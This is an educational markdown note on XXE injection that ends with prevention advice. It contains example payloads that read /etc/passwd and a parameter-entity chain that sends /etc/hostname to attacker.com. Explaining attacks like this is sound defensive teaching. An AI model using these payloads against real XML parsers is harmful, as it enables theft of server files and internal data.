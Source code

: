 ```yaml
---
title: XML External Entity (XXE) Injection
draft: false
date: 2025-01-01
tags:
  - owasp
  - xml
  - xxe
  - injection
  - file_inclusion
  - xml_injection
---
```


XML External Entity (XXE) vulnerabilities happen when an application uses XML input that refers to external things. By changing these external entity declarations, attackers can read local files or start network requests from the server. In very bad cases, they can even control the computer from far away. XXE usually takes advantage of parsing libraries or features in XML processors that automatically get external resources without checking them well enough.

These attacks are very dangerous because XML parsers might automatically expand entities, download remote content, or even look at system files. If an attacker can control or give XML data (like through file uploads or API calls), and the server doesn't set up its XML parser safely, the attacker can use XXE to steal sensitive data or interact with internal services.

A typical XXE attack might include a DOCTYPE declaration that refers to a system file:

```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [\
  <!ENTITY xxe SYSTEM "file:///etc/passwd">\
]>
<root>
  <data>&xxe;</data>
</root>

```

When an unsafe XML parser uses this, it tries to read `/etc/passwd` from the server's file system and then puts its content in the parsed output. The attacker can then access sensitive local files.

Attackers can make an XML parser load an external resource from a remote server that they control:

```

<!DOCTYPE foo [\
  <!ENTITY xxe SYSTEM "http://attacker.com/secret?file=/etc/passwd">\
]>
<root>
  <data>&xxe;</data>
</root>

```

Even if the application's response doesn't directly return the file contents, the attacker's server receives a request that reveals information (like which files exist or open ports) or steals data, depending on how the parser works.

Some XML parsers allow special entities in the DTD, which can be used to sneak in harmful payloads or access environment variables:

```

<!DOCTYPE root [\
  <!ENTITY % file SYSTEM "file:///etc/hostname">\
  <!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://attacker.com/?host=%file;'>">\
  %eval;\
]>
<root>&exfil;</root>

```

This sequence can start network requests that contain sensitive server data to an external URL.

Here are some ways to prevent XXE attacks:

1. **Disable External Entity Resolution**
- Set up the XML parser to not allow or ignore external entities.
- For example, in Java, disable DTDs and set `XMLConstants.FEATURE_SECURE_PROCESSING` to true.
- Each language or parser usually has settings or flags to turn off external entity expansion.
1. **Use Less Complex Data Formats**
- If possible, don't use XML and its complex features.
- Consider using JSON or other formats that don't include entity expansion by default, which reduces the risk of attack.
1. **Implement Whitelisting and Validation**
- If external entities are really needed, make a list of allowed resources or schemas.
- Check XML input against a safe schema that doesn't allow external references.
1. **Enforce Least Privilege and Sandboxing**
- Run the application with the fewest file system and network permissions possible, so that even if XXE is tried, it has limited access to files or internal endpoints.
- Use containerization or chroot environments to limit the application's view of the file system.

*Reference: OWASP Top 10 Security Risks*
